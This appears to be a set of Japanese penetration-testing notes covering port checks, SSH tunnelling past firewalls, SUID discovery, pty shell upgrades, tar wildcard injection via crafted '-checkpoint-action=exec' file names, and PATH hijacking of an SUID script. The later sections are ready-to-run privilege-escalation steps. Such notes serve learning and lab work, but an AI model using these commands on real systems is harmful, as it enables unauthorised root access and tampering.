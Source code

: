 ### TCP/UDPのポート開放状態を確認したいとき  
#### ss -nltup  
-n : ポート番号をサービス名変換しない(例えば:httpと表示せず:80と表示する)  
-l : Listen(待ち受け)ポートのみを表示する  
-t : TCP を表示する  
-u : UDP を表示する  
-p を付けて "ss -nltup" を実行すると、どのプロセスがそのポートを開放しているのかが分かります。  

### SSHのファイヤーウォールを超えて外部から目的サーバにアクセスする  
SSH の機能の内の一つであるポートフォワーディングを使ってトンネルを掘ることによって, ファイヤーウォールを超えて外部から目的サーバにアクセスすることができる  
```$ ssh -L (ローカルで使用するポート):(目的サーバのアドレス):(目的サーバで待ち受けてるポート番号) ユーザ名@IPアドレス```  

### SUIDの探索
``` find / -perm -u=s -type f 2>/dev/null ```  
  
### シェル起動  
``` python -c 'import pty;pty.spawn("/bin/bash")' ```  
なお、permission deniedでlinpeasをアップできない場合は、/tmp上でwgetするとささる  

### ワイルドカードの脆弱性  
chown , tar , rsyncなどで特定のオプションを使用することで顕在化する可能性がある  
特別に細工されたファイル名を使用することで、  
攻撃者は、他のユーザー(rootも含む)が実行するシェルコマンドに任意の引数を注入することができる。  
#### tarの任意コマンド実行によるポイズニング  
・-checkpoint[=NUMBER]  
・-checkpoint-action=ACTION  
これらのオプションはチェックポイント(NUMBER , ACTION)後に  
指定されたアクションを使用することができる  
→ワイルドカードインジェクションに繋がる！  
  
例:  
``` -checkpoint=1 ```  
``` -checkpoint-action=exec=sh shell.sh ```  
shell.shのプログラムは以下  
``` chmod 777 /root ```  


  
### フルパスでないコマンドが入っているSUIDなシェルスクリプトから権限昇格する
例えば以下のようなコマンドを実行するシェルスクリプト(/usr/bin/menu)があったとする
```curl -I localhost```

1."/bin/sh"という文字列をcurlというファイルに出力する
2.生成されたcurlファイルに対してchmodで777にしてあげる
3.環境パスを現在のディレクトリにする
4.脆弱性のあるシェルスクリプトを実行すると権限昇格

以下が権限昇格の具体的な手順
```
echo /bin/sh > curl
chmod 777 curl
export PATH=現在のディレクトリ:$PATH
/usr/bin/menu
```
